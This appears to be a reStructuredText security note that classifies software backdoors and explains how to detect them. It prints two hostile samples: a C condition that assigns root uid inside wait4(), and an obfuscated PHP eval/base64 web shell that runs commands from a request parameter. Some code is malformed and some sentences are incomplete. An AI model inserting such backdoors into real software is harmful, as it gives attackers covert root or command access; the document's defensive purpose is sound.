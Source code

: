 Security : Backdoors
====================

.. contents::

Types of Backdoors
------------------
**System Backdoors** are backdoors that allow access to data and processes at the system level. Rootkits, remote access software, and delibrate system misconfiguration by an attacker fall in this category.

**Application Backdoors** are versions of legitimate software modified to bypass security mechanisms under certain conditions. These legitimate programs are meant to be installed and running on a system with the full knowledge and approval of the system administrator. Applications backdoors are often inserted in the code by someone who has legitimate access to the code. Other times the source code or binary to an application is modified by someone who has compromised the system where the source code is maintained or the binary is distributed.

**Crypto Backdoors** are a third category of backdoors. These are intentionally designed weaknesses in a cryptosystem for particular keys or messages that allow an attacker to gain access to clear-test messages that they shouldn't.

Application Backdoor Classes
----------------------------

**Special Credentials**
        The attacker inserts logic and special credentials into the program code. The special credentials are in the form of a special username, password, password hash, or key. The logic is a comparison to the special credential logic that inserts the special credential into the designed credential store.

**Detection Strategies** 
        include identifying static variables that look like usernames and passwords. Start with all strings using ASCII character set. Also inspect known crypto API calls where these strings are passed in as plaintext data.

Hidden Functionality
--------------------
**Hidden Functionality** backdoors allow the attacker to issue commands or authenticate without performing the desinged authentication procedure. Hidden funcitonality backdoors often use special parameters to trigger special logic within the program that shouldn't be there.

**Detection Strategies** 
        include recongnising common patterns in the scripting languages: create an obfuscated string, input into deobfuscation function, call eval() on the result of the deobfucsation. Payload code often allows command execution or auth bypass. Identify GET or POST parameters passed by web applications then compare them to form fields in HTML and JSP pages to find fields that only appear on the server side.

Uninntended Network Activity
----------------------------
This may involve a number of techniques including listening on undocuemented ports, making outbound connections to establish a command and control channel, or leaking sensitive information over the network via STMP, HTTP, UDP, ICMP or other protocols.

**Detection Strategies** 
        include identifying all locations in the codebase that call functions responsible for establishing connections or sending/receiving connectionless data, such as connect(), bind(), accept(), sendto(), listen() and recvfrom(). Once these calls have been identified pay particular attention to any outbound network activiity that reference a hard-coded IP address or port. Keep in mind that many applications have functionality built in to automaticallly chekc for updates, so seeing at least one hard-coded outbound connection is not uncommon.

**Manipulation of Security-Critical Parameters** 
        In any program, certain variables or parameters are more significant than others from a security standpoint. In application code, consider variables used to store the results of authentication or authorisation functions, or other security mechanisms. By directly manipulationg these parameters or introducing flawed logic to comparisons against them.

.. code-block:: c

        if ((options == (__WCLONE|__WALL)) &&
                (current->uid = 0))
                retval = -EINVAL;

The second half of the conditional assigns current->uid to zero rather than comparing it with zero. As a result, a calling process is granted root privilieges if it calls wait4() with the _WCLONE and _WALL options set.

Self-modifying Code
-------------------

Any code that modifies itself at run-time is immediately suspicious. This behaviour is used commonly in scripting languages but can just as easily appear in native code. Conider the following example in PHP

.. code-block:: php

        eval(base64_decode("cGFzc3RocnUoJF9HRVRbJ2NtZCddKTs="));

When the PHP script executes, this line of code evaluates the result of the base64_decode() operations as a PHP command. Therefore, if the decoded string contains valid PHP, it will be executed in the context of the running process.

.. code-block:: php

        eval("passthru($_GET('cmd'));})

The effect of the resulting code is to parse the "cmd" parameter from the HTTP request, and call the passthru() function, which executes the supplied command on the server.

